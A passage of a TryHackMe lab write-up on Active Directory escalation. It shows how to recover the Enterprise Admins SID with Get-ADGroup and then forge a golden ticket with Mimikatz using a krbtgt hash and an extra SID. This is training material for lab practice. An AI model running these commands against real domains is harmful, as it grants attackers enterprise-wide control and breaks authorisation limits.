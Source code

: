 		![task8-sid](./images/task8-sid.png)

	* Recover the SID of the Enterprise Admins group
	
		```
		Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
		```

		![task8-sids](./images/task8-sids.png)

	* Use Mimikatz to generate a golden ticket
	
		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe
		privilege::debug
		kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
		```
